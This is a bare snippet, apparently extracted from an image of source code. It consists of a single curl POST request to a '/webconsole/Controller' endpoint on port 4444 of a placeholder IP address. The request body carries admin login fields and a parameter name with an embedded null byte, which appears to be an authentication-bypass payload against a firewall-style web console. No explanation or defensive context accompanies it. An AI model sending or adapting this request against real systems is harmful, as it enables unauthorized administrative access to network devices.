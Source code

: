 curl --connect-timeout 5 -X POST -k -i 'https://x.x.x.x:4444/webconsole/Controller' --data 'mode=151&json={"username"%3a"admin","password"%3a"pw","languageid"%3a"1","browser"%3a"Chrome_101","captcha"%3a"gn2x53","accessaction"%3a1,+"mode\u0000ef"%3a716}&__RequestType=ajax&t=1655987625589' --cookie 'JSESSIONID=xxxxxxx'

